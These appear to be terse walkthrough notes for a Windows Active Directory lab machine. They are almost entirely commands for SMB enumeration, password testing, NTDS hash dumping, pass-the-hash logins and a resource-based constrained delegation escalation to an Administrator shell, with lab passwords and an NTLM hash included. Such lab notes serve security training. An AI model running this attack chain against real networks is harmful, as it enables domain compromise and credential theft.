

____

>[!INFO]
> IP=192.168.230.30
> Windows

# Nmap



```bash
smbclient -N \\\\$IP\\nara
```

https://github.com/xct/hashgrab

```bash
crackmapexec smb $IP --users
```

```bash
crackmapexec smb $IP -u 'V.Ventz' -p 'HotelCalifornia194!'
```

```bash
crackmapexec smb $IP -u 'V.Ventz' -p 'HotelCalifornia194!' --spider 'Password Audit' --regex .
```


```bash
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL -outputfile hashes.txt
```

https://md5decrypt.net/en/Ntlm/

Administrator : ItachiUchiha888

```bash
crackmapexec winrm $IP -u users -H hashes.txt.ntds
```

```bash
evil-winrm -i $IP -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
```


# PrivEsc

GenericAll privileges on the Domain Controller

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.229.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
```

https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py

```bash
python3 rbcd.py -dc-ip 192.168.229.175 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```

```bash
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.229.175
```

If you find this **error** from Linux: `**Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)**` it because of your local time, you need to synchronise the host with the DC. 

```bash
sudo rdate -n 192.168.229.175
```

```bash
export KRB5CCNAME=./Administrator.ccache
```

```bash
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.229.175
```
